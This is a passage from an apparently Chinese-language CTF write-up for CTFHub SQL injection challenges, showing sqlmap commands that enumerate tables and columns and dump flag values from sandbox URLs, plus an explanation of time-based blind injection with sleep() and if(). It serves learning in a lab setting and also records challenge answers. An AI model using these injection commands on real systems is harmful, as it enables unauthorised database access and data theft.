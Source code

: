 得到数据库名后继续爆破表信息：

```bash
sqlmap -u "http://challenge-68c4a9c7f10ce011.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
#可以得到如下有用的结果信息(简洁版)
+------+
| flag |
+------+
| news |
+------+
```

知道有个叫`flag`的表后，可以查看该表的字段信息：

```bash
sqlmap -u "http://challenge-68c4a9c7f10ce011.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns
#可以得到如下有用的结果信息(简洁版)
+-----------------------+
| Column | Type         |
+-----------------------+
| flag   | varchar(100) |
+-----------------------+
```

最后输入以下代码根据`flag`字段可以查询到该字段的数据：

```bash
sqlmap -u "http://challenge-68c4a9c7f10ce011.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag -C flag --dump
#可以得到如下有用的结果信息(简洁版)
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{64a098acea7e72aefc09810f} |
+----------------------------------+
```

提交`ctfhub{64a098acea7e72aefc09810f}`即可。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/布尔盲注/1.png)

------

#### 时间盲注

时间盲注攻击是利用`sleep()`或`benchmark()`等函数让`mysql`执行时间变长，经常与`if(expr1,expr2,expr3)`语句结合使用，通过页面的响应时间来判断条件是否正确。`if(expr1,expr2,expr3)`含义是：如果`expr1`为`True`则返回`expr2`，否则返回`expr3`。

这道题如果真的盲注的话会很费劲，直接启动`Kali-Linux`用`sqlmap`爆破就完事啦。

```sql
sqlmap -u "http://challenge-eccdebff49cb9b7c.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns --dump
#可以得到如下有用的结果信息(简洁版)
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{661f441db8300ee13ac86d2b} |
+----------------------------------+
```
